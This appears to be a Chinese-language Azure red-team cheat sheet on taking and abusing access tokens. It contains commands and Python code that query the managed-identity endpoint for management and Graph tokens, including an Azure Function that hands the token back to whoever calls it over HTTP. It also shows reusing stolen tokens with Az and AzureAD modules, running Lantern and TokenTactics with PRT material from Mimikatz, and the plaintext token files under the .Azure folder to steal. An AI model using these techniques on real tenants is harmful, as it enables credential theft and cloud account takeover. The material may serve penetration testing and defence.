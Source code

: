 	来自托管身份的令牌
	MSI_ENDPOINT是IDENTITY_ENDPOINT的别名，MSI_SECRET是IDENTITY_HEADER的别名。
	从环境中找到 IDENTITY_HEADER 和 IDENTITY_ENDPOINT ：env
	大多数情况下，您需要以下资源之一的令牌：
	https://storage.azure.com
	https://vault.azure.net
	https://graph.microsoft.com
	https://management.azure.com
  #### 通过 Powershell 的 Azure API
  	从IDENTITY_HEADER和IDENTITY_ENDPOINT获取access_token : 。system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
	然后查询 Azure REST API 以获取订阅 ID等。
	$Token = 'eyJ0eX..'
	$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
	# $URI = 'https://graph.microsoft.com/v1.0/applications'
	$RequestParams = @{
	 Method = 'GET'
	 Uri = $URI
	 Headers = @{
	 'Authorization' = "Bearer $Token"
	 }
	}
	(Invoke-RestMethod @RequestParams).value 
	列出资源并检查 runCommand 权限
	$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
	$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
  #### 通过 Python 版本的 Azure API
  	IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
	IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

	print("[+] Management API")
	cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	val = os.popen(cmd).read()
	print("Access Token: "+json.loads(val)["access_token"])
	print("ClientID/AccountID: "+json.loads(val)["client_id"])

	print("\r\n[+] Graph API")
	cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	val = os.popen(cmd).read()
	print(json.loads(val)["access_token"])
	print("ClientID/AccountID: "+json.loads(val)["client_id"])
	或在 Python 函数中
	import logging, os
	import azure.functions as func

	def main(req: func.HttpRequest) -> func.HttpResponse:
	    logging.info('Python HTTP trigger function processed a request.')
	    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
	    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
	    cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	    val = os.popen(cmd).read()
	    return func.HttpResponse(val, status_code=200)
  #### 获得令牌
	主刷新令牌的有效期为 14 天！

	az cli
	az account get-access-token 
	az account get-access-token --resource-type aad-graph
	或者Az
	(Get-AzAccessToken -ResourceUrl https://graph.microsoft.com).Token
	或从使用 IDENTITY_HEADER 和 IDENTITY_ENDPOINT 的托管标识
  #### 使用令牌
	令牌包含所有声明，包括 MFA 和条件访问的声明

	AZ Powershell
	PS C:\Tools> $token = 'eyJ0e..'
	PS C:\Tools> Connect-AzAccount -AccessToken $token -AccountId <ACCOUNT-ID>

	# Access Token and Graph Token
	PS C:\Tools> $token = 'eyJ0eX..'
	PS C:\Tools> $graphaccesstoken = 'eyJ0eX..'
	PS C:\Tools> Connect-AzAccount -AccessToken $token -GraphAccessToken $graphaccesstoken -AccountId <ACCOUNT-ID>
	PS C:\Tools> Get-AzResource
	ERROR: 'this.Client.SubscriptionId' cannot be null.
	托管标识对任何 Azure 资源都没有权限。 切换到 GraphAPI
	AzureAD
	Import-Module C:\Tools\AzureAD\AzureAD.psd1
	$AADToken = 'eyJ0…'
	Connect-AzureAD -AadAccessToken $AADToken -TenantId <TENANT-ID> -AccountId <ACCOUNT-ID>
  #### 刷新令牌
	https://github.com/ConstantinT/Lantern
	Lantern.exe cookie --derivedkey <Key from Mimikatz> --context <Context from Mimikatz> --prt <PRT from Mimikatz>
	Lantern.exe mdm --joindevice --accesstoken (or some combination from the token part) --devicename <Name> --outpfxfile <Some path>
	Lantern.exe token --username <Username> --password <Password>
	Lantern.exe token --refreshtoken <RefreshToken>
	Lantern.exe devicekeys --pfxpath XXXX.pfx --refreshtoken (--prtcookie / ---username + --password ) 
	https://github.com/rvrsh3ll/TokenTactics
	Import-Module .\TokenTactics.psd1
	CommandType     Name                                               Version    Source
	-----------     ----                                               -------    ------
	Function        Clear-Token                                        0.0.1      TokenTactics
	Function        Dump-OWAMailboxViaMSGraphApi                       0.0.1      TokenTactics
	Function        Forge-UserAgent                                    0.0.1      TokenTactics
	Function        Get-AzureToken                                     0.0.1      TokenTactics
	Function        Get-TenantID                                       0.0.1      TokenTactics
	Function        Open-OWAMailboxInBrowser                           0.0.1      TokenTactics
	Function        Parse-JWTtoken                                     0.0.1      TokenTactics
	Function        RefreshTo-AzureCoreManagementToken                 0.0.1      TokenTactics
	Function        RefreshTo-AzureManagementToken                     0.0.1      TokenTactics
	Function        RefreshTo-DODMSGraphToken                          0.0.1      TokenTactics
	Function        RefreshTo-GraphToken                               0.0.1      TokenTactics
	Function        RefreshTo-MAMToken                                 0.0.1      TokenTactics
	Function        RefreshTo-MSGraphToken                             0.0.1      TokenTactics
	Function        RefreshTo-MSManageToken                            0.0.1      TokenTactics
	Function        RefreshTo-MSTeamsToken                             0.0.1      TokenTactics
	Function        RefreshTo-O365SuiteUXToken                         0.0.1      TokenTactics
	Function        RefreshTo-OfficeAppsToken                          0.0.1      TokenTactics
	Function        RefreshTo-OfficeManagementToken                    0.0.1      TokenTactics
	Function        RefreshTo-OutlookToken                             0.0.1      TokenTactics
	Function        RefreshTo-SubstrateToken                           0.0.1      TokenTactics
  #### 窃取令牌
  	获取 AzurePasswords
	>Import-Module Microburst.psm1
	>Get-AzurePasswords
	>Get-AzurePasswords -Verbose | Out-GridView
	从 az cli 窃取令牌
	az cli 将访问令牌以明文形式存储在目录中的accessTokens.json中C:\Users\<username>\.Azure
	同一目录中的 azureProfile.json 包含有关订阅的信息。
	从 az powershell 窃取令牌
	Az PowerShell 将访问令牌以明文形式存储在目录中的TokenCache.dat中C:\Users\<username>\.Azure
	它还在AzureRmContext.json中以明文形式存储ServicePrincipalSecret
	用户可以使用保存令牌Save-AzContext
